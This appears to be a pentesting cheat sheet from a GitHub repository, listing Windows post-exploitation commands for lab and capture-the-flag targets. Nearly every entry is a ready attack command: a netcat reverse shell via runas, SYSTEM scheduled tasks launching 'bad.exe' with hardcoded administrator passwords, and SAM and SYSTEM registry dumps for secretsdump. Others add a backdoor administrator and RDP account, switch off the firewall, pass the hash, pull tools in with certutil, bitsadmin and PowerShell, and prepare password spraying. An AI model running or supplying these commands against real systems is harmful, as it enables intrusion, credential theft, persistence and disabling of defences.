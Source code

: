 ### Runas Powershell
https://stackoverflow.com/questions/28989750/running-powershell-as-another-user-and-launching-a-script
```
$username = 'user'
$password = 'password'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process Notepad.exe -Credential $credential
```
### Powershell options
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive - NoProfile
```

### Runas cmd
```
runas /user:Administrator "c:\test\nc.exe 192.168.49.186 53 -e cmd.exe" < password.txt
```

### Runas with Scheduled Task in Powershell
```
$pw = ConvertTo-SecureString '+9B1w$XVK!qR1c' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)

Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\test\bad.exe /ru SYSTEM } -Credential $creds

Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```

### Runas with Scheduled Task in cmd
```
schtasks /create /sc MINUTE /tn shell /tr C:\test\bad.exe /ru Administrator /rp #8E)[,m63d8juk
schtasks /run /tn shell
```

### Dump hashes
````
reg save hklm\sam .\sam
reg save hklm\system .\system
reg save hklm\security .\security

secretsdump.py -sam sam -system system -security security LOCAL > hashes.txt
````
### Add RDP user
````
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
````
### Turn off firewall 
````
NetSh Advfirewall set allprofiles state off
````

#### Pass the hash
````
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cb
e81fe00 //10.129.26.210 cmd.exe

````


#### Ping test blind rce
```sh
C:\Windows\System32\cmd.exe /c ping 10.10.14.27
# on linux box: 
tcpdump -i tun0 icmp
```


#### Ping test blind rce like above check if x64 powershell exists
```sh
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe ping 10.10.14.27
```

#### Download files
```bash
certutil.exe -urlcache -split -f http://10.10.14.10:8000/nc64.exe C:\\Users\\Public\\nc64.exe

powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/
/10.11.0.4/wget.exe','C:\Users\admin\Desktop\wget.exe')"

powershell iwr -uri http://10.10.16.97:8000/chisel.exe -outfile ch.exe # also works in PS ConstrainLanguageMode

expand http://10.10.14.10:8000/watson.exe C:\\Users\\Public\\watson.exe

bitsadmin /transfer debjob /download /priority normal http://10.10.14.10:8000/watson.exe C:\Users\\Public\watson.exe

```

#### md5checksum
```
certutil.exe -hashfile Taihou64.exe MD5
```

#### Alternate Data streams 
````
dir /R file.txt - to check 
expand hm.txt:root.txt root.txt
powershell -command " Get-Content C:\ADS\1.txt -Stream file.exe -Raw"


````

#### List directory permissions (win server 2003)
```sh
icacls c:\*. /C
```


#### List alternate data stream files
```sh
dir /r
```

#### Mount windows account share using cifs, "ACCT here is account share name"
```bash
sudo mount -t cifs -o username=Finance //10.1.1.1/ACCT /mnt/win_share/
```

#### Mount vhd file from share
```bash
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector -ro -v /path/to/mount/directory
```



#### Dump password policy to prepare wordlist for password spray if smb null authentication allows domain enumeration.
```sh
crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
```
#### Check account lock policy before password spraying smb
```bash
crackmapexec smb 10.10.10.123 --pass-pol
```


